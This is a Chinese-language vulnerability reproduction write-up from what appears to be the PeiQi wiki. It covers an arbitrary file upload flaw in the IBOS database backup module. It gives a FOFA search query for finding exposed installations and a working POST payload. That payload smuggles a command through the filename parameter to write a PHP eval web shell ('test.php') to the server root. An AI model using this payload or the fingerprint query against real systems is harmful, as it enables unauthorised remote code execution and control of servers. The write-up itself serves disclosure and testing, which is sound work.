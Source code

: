 ```yaml
---
title: IBOS 数据库模块 任意文件上传漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - IBOS
---
```


# IBOS 数据库模块 任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> IBOS < 4.5.5

## FOFA

> [!NOTE]
>
> body="IBOS" && body="login-panel"

## 漏洞复现

登录页面如下

```
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```

![](/img/20210924013657285923.png)

找到数据库备份模块

![](/img/20210924013658188849.png)

提交并抓包

![](/img/20210924013658561310.png)

修改filename参数发送包会上传test.php文件到根目录

```
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[test]);?>">test%PATHEXT:~0,1%php%26test&dbSubmit=1
```

![](/img/20210924013658945516.png)